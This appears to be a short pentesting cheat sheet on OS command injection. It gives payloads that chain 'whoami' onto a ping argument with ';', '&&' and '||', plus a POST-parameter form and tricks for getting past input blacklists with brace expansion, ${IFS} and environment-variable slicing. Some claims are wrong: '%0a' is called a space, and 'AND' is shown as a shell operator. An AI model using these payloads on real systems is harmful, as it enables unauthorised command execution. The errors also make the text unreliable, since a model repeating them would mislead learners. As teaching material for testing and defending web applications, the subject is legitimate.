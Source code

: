 There are various ways to perform RCE attacks, for example:

> Concatenating Multiple Commands with ';'. Example:

```
ping -c 1 127.0.0.1; whoami
```

> Example with AND operator:

```bash
ping -c 1 127.0.0.1 && whoami
```

```bash
ping -c 1 127.0.0.1 AND whoami
```

> Example with OR operator:

```shell-session
ping -c 1 127.0.0.1 || whoami
```

> Example in a POST request:

```
<parameter>=||+whoami
```

Sometimes the commands can be union with + or url encode or other methods.

> Using Brace Expansion

There are many other methods we can utilize to bypass space filters. For example, we can use the `Bash Brace Expansion` feature, which automatically adds spaces between arguments wrapped between braces, as follows:

```shell-session
{ls,-la}
```

Example RCE: (`127.0.0.1%0a{ls,-la}`).

The parameter %0a is a space.

> Bypassing other blacklisted characters

Besides injection operators and space characters, a very commonly blacklisted character is the slash (`/`) or backslash (`\`) character, as it is necessary to specify directories in Linux or Windows. We can utilize several techniques to produce any character we want while avoiding the use of blacklisted characters.

* Linux

There are many techniques we can utilize to have slashes in our payload. One such technique we can use for replacing slashes (`or any other character`) is through `Linux Environment Variables` like `${IFS}`. While `${IFS}` is directly replaced with a space, there's no such environment variable for slashes or semi-colons. However, these characters may be used in an environment variable, and we can specify `start` and `length` of our string to exactly match this character.

```shell-session
echo ${LS_COLORS:10:1}
```
